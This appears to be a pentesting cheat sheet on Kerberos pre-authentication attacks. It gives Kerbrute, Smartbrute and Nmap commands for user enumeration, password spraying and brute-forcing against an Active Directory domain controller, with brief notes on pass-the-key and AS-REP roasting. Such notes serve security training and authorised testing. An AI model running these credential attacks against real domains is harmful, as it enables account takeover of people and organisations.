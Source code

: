 # Pre-authentication Kerberos

## Objectives

* Bruteforce accounts
* Password Spraying
* Bruteforce single user
* Enumerate user

Pre-authentication (AS-REQ) is possible on all accounts that do not have this checkbox unchecked : \
![](<../.gitbook/assets/image (7).png>)



In Pre-authentication, the user does not supply its password but a secret which is derivated from its password (DES, RC4, AES128 or AES256).

If we know the derivated secret, we don't need to know the password to achieve pre-auth (pass-the-key).

If pre-authentication is disabled, AS-REP Roasting is possible.

## Kerbrute (go)

```
sudo git clone https://github.com/ropnop/kerbrute.git
ls dist/
./kerbrute_linux_amd64 
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

## Alternative : Smartbrute (Python)

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN

# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos// Some code
```

## Nmap

```
nmap -p 88 --script="krb5-enum-users" --script-args="krb5-enum-users.realm='$DOMAIN',userdb=$WORDLIST" $IP_DC

```



